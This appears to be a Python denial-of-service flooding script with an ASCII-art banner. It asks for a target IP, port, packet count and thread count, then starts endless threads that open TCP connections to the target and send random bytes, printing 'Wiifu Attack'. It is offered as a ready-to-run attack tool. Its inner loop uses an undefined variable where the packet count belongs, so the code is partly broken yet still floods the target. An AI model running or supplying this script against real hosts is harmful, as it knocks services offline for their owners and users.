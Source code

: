 import socket
import threading
import random

print("""\033[95m
      _ _               _        _ 
  ___(_) | _____  _ __ | |_ ___ | |
 / __| | |/ / _ \| '_ \| __/ _ \| |
 \__ \ |   < (_) | | | | || (_) | |
 |___/_|_|\_\___/|_| |_|\__\___/|_|
                                   """)
                                  
ip_wibu = str(input("[ip] : ")) 
port_wibu = int(input("[port] : "))
paket_wibu = int(input("[paket] : "))
threads_wibu = int(input("[thread] : "))

def wibu():
	peju = random._urandom(1232)
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip_wibu,port_wibu))
			s.send(peju)
			for x in range(times):
				s.send(peju)
			print("Wiifu Attack")
		except:
			s.close()
			print("Wiifu Attack")

            
for y in range(threads_wibu):
    th = threading.Thread(target = wibu)
    th.start()

